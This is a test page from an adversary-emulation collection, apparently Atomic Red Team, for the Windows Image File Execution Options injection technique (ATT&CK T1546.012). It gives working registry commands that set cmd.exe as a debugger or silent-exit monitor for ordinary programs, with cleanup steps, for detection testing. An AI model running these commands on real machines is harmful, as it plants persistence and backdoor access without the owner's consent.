 # T1546.012 - Image File Execution Options Injection
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/012)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by Image File Execution Options (IFEO) debuggers. IFEOs enable a developer to attach a debugger to an application. When a process is created, a debugger present in an application’s IFEO will be prepended to the application’s name, effectively launching the new process under the debugger (e.g., <code>C:\dbg\ntsd.exe -g  notepad.exe</code>). (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can be set directly via the Registry or in Global Flags via the GFlags tool. (Citation: Microsoft GFlags Mar 2017) IFEOs are represented as <code>Debugger</code> values in the Registry under <code>HKLM\SOFTWARE{\Wow6432Node}\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable></code> where <code>&lt;executable&gt;</code> is the binary on which the debugger is attached. (Citation: Microsoft Dev Blog IFEO Mar 2010)

IFEOs can also enable an arbitrary monitor program to be launched when a specified program silently exits (i.e. is prematurely terminated by itself or a second, non kernel-mode process). (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018) Similar to debuggers, silent exit monitoring can be enabled through GFlags and/or by directly modifying IFEO and silent process exit Registry values in <code>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\</code>. (Citation: Microsoft Silent Process Exit NOV 2017) (Citation: Oddvar Moe IFEO APR 2018)

Similar to [Accessibility Features](https://attack.mitre.org/techniques/T1546/008), on Windows Vista and later as well as Windows Server 2008 and later, a Registry key may be modified that configures "cmd.exe," or another program that provides backdoor access, as a "debugger" for an accessibility program (ex: utilman.exe). After the Registry is modified, pressing the appropriate key combination at the login screen while at the keyboard or when connected with [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the "debugger" program to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Similar to [Process Injection](https://attack.mitre.org/techniques/T1055), these values may also be abused to obtain privilege escalation by causing a malicious executable to be loaded and run in the context of separate processes on the computer. (Citation: Endgame Process Injection July 2017) Installing IFEO mechanisms may also provide Persistence via continuous triggered invocation.

Malware may also use IFEO to [Impair Defenses](https://attack.mitre.org/techniques/T1562) by registering invalid debuggers that redirect and effectively disable various system and security applications. (Citation: FSecure Hupigon) (Citation: Symantec Ushedix June 2008)</blockquote>

## Atomic Tests

- [Atomic Test #1 - IFEO Add Debugger](#atomic-test-1---ifeo-add-debugger)

- [Atomic Test #2 - IFEO Global Flags](#atomic-test-2---ifeo-global-flags)


<br/>

## Atomic Test #1 - IFEO Add Debugger
Leverage Global Flags Settings

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;calc.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v Debugger /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - IFEO Global Flags
Leverage Global Flags Settings

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| target_binary | Binary To Attach To | Path | C:&#92;Windows&#92;System32&#92;notepad.exe|
| payload_binary | Binary To Execute | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /t REG_DWORD /d 512
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /t REG_DWORD /d 1
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /d "#{payload_binary}"
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\#{target_binary}" /v GlobalFlag /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v ReportingMode /f >nul 2>&1
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\#{target_binary}" /v MonitorProcess /f >nul 2>&1
```





<br/>
